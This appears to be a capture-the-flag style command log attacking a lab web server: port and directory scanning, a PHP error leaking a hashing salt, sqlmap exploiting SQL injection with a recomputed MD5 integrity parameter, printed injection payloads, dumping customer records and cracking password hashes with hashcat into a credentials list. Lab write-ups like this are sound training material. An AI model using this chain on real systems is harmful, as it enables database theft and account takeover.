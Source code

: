 $ nmap --min-rate 1000 -oN nmap-tcp.initial -p- -Pn -T4 -v 10.10.10.231

PORT   STATE SERVICE
80/tcp open  http

$ sudo nmap -oN nmap-udp -sU -Pn -v 10.10.10.231



http://10.10.10.231/licenses/



    <script type="text/javascript">
        jQuery('#headerwrap').backstretch([ "assets/img/bg/bg1.jpg", "assets/img/bg/bg3.jpg" ], {duration: 8000, fade: 500});
        $( "#product-content" ).load("/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b",function() {});
    </script>

$ gobuster dir -o 80_gobuster.txt -u http://10.10.10.231/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php 

$ gobuster dir -o 80_gobuster_php.txt -u http://10.10.10.231/licenses -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,php 


$ curl http://10.10.10.231/products-ajax.php

<!-- [8] Undefined index: order
On line 6 in file C:\inetpub\wwwroot\products-ajax.php
  1 |   // SECURE_PARAM_SALT needs to be defined prior including functions.php 
  2 |   define('SECURE_PARAM_SALT','hie0shah6ooNoim'); 
  3 |   include('functions.php'); 
  4 |   include('db-config.php'); 
  5 |   if ( !$_GET['order'] || !$_GET['h'] ) {                <<<<< Error encountered in this line.
  6 |     // Set the response code to 500 
  7 |     http_response_code(500); 
  8 |     // and die(). Someone fiddled with the parameters. 
  9 |     die('Parameter missing or malformed.'); 
 10 |   } 
 11 |  
// -->
Parameter missing or malformed.                 

$ curl -I http://10.10.10.231/products-ajax.php

HTTP/1.1 500 Internal Server Error
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.4.1
Date: Wed, 07 Apr 2021 18:05:04 GMT

$ sqlmap -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b" --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode()).hexdigest()"

Parameter: order (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: order=(SELECT (CASE WHEN (8581=8581) THEN 'id desc' ELSE (SELECT 2416 UNION SELECT 5558) END))&h=a1b30d31d344a5a4e41e8496ccbdd26b

    Type: time-based blind
    Title: MySQL >= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)
    Payload: order=id desc PROCEDURE ANALYSE(EXTRACTVALUE(9193,CONCAT(0x5c,(BENCHMARK(5000000,MD5(0x66637461))))),1)&h=a1b30d31d344a5a4e41e8496ccbdd26b

$ sqlmap -u "http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b" --eval="import hashlib;h=hashlib.md5(('hie0shah6ooNoim'+order).encode()).hexdigest()" --dump

$ cat customers | awk -F "|" '{print $3}' | grep -E "@" | tr -d ' ' > users.txt

$ cat customers | awk -F "|" '{print $4}' | grep -E "[0-9a-f]{32}" | tr -d ' ' > hashes

$ hashcat --force -m 0 hashes /usr/share/wordlists/rockyou.txt 

$ hashcat --force --show -m 0 hashes /usr/share/wordlists/rockyou.txt > hashes_cracked

$ cat hashes_cracked | cut -d ":" -f 2 > passwords.txt

$ ctr=0;for i in $(cat passwords.txt); do x=$((ctr=ctr+1)); sed -E "$(echo $x)s/(.*)/\1:$i/g" users.txt | grep ":" >> creds.txt; done;

